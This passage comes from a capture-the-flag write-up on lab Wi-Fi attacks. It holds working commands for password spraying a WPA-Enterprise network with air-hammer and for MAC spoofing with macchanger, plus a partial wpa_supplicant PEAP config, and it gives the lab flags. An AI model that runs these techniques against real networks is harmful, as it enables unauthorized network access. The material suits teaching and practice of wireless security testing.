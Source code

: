 **Flag :**  `monkey`

## **20. Which is the user (with domain) with password 12345678 in wifi-corp?**

**Challenge Description :**  Which is the user (with domain) with password 12345678 in wifi-corp? Use top-usernames-shortlist.txt in /root/

### Approach

`air-hammer` allow me to do password spraying:

I have to modify user list to add `CONTOSO\` in prefix of each users:

```shell
sed -e 's/^/CONTOSO\\/' /root/top-usernames-shortlist.txt > corpuser.txt
```

```shell
sudo ./air-hammer.py -i wlan1 -e wifi-corp -u corpuser.txt -P 12345678 -1
```

![](Images/Recon20_01.png)

**Flag :**  `CONTOSO\ftp`

## **21. What is the flag on the wifi-regional-tablets AP?**

**Challenge Description :**  What is the flag on the wifi-regional-tablets AP?

### Approach

```shell
systemctl stop network-manager
airmon-ng stop wlanmon
ip link set wlan1 down
macchanger -m F0:9F:C2:00:00:00 wlan1
ip link set wlan1 up
```

```shell
echo '
network={
  ssid="wifi-regional-tablets"
  ## The SSID you would like to relay and authenticate against. 
  scan_ssid=1
  key_mgmt=WPA-EAP
  ## Do not modify
  identity=""
  anonymous_identity=""
  password=""
  ## This initialises the variables for me.
  ## -------------
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
```